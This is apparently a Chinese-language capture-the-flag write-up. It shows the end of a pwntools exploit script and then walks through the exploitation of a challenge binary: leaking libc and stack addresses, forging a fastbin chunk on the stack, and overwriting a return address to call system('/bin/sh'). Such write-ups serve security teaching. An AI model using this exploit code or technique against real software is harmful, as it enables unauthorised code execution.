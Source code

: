 ```python
    log.success("binsh_addr: {}".format(hex(binsh_addr)))

    raw_input('leak stack address')
    stack_addr = leakstack()
    log.success("stack_addr: {}".format(hex(stack_addr)))

    raw_input('overflow return addr to exec system("/bin/sh")')   
    # add fake chunk to fastbin
    fakechunk(stack_addr)
    # alloc fake chunk to name, and overwrite return addr of survey
    name = 76*"E" + p32(system_addr) + "EEEE" + p32(binsh_addr)
    comment1(name,"50","EEEE","EEEE")
    p.recvuntil('<y/n>: ')
    p.send('n')
    p.interactive()

if __name__ == "__main__":
    main()
```

## 3. 利用过程
1）首先添加 100 条评论，使得 v1 溢出修改 nbytes 为 0x6e。nbytes 被修改前内存中地址如下：    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020313_46175149.jpg)    
nbytes 被修改后内存中地址如下：      
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020322_70375310.jpg)    

2）接着利用内存泄露漏洞可得到 libc 中 \_IO_file_sync 函数在内存中的地址，题目已给 libc.so 文件，通过该地址可计算处 system 函数和 “/bin/sh” 字符串的地址。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020320_50239044.jpg)   
此外，利用该漏洞还能泄露栈地址，通过计算偏移量可得到堆指针 \*name 的内存地址，为后续覆盖该堆指针做准备。      
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020328_91788711.jpg)       

3）继续添加评论时，可在 reason 内存中伪造一个 fast chunk。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020331_93324098.jpg)  

4）溢出 comment 变量内存，修改堆指针 \*name 指向伪造的 chunk。堆指针被覆盖前内存如下：    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020316_47717698.jpg)        
堆指针被覆盖后内存如下：    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020305_37025857.jpg)     

5）之后添加评论前程序会 free(name)，此时伪造的 chunk 将被加入 fastbin 中。     
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020298_18602401.jpg)   

6）再次添加评论，会把栈中伪造的 chunk 分配给 name，此时溢出 name 可覆盖 survey 函数的返回地址为 system 函数地址。返回地址被修改前内存如下：    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020301_27242292.jpg)     
返回地址被修改后内存如下：    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020308_44036325.jpg)   
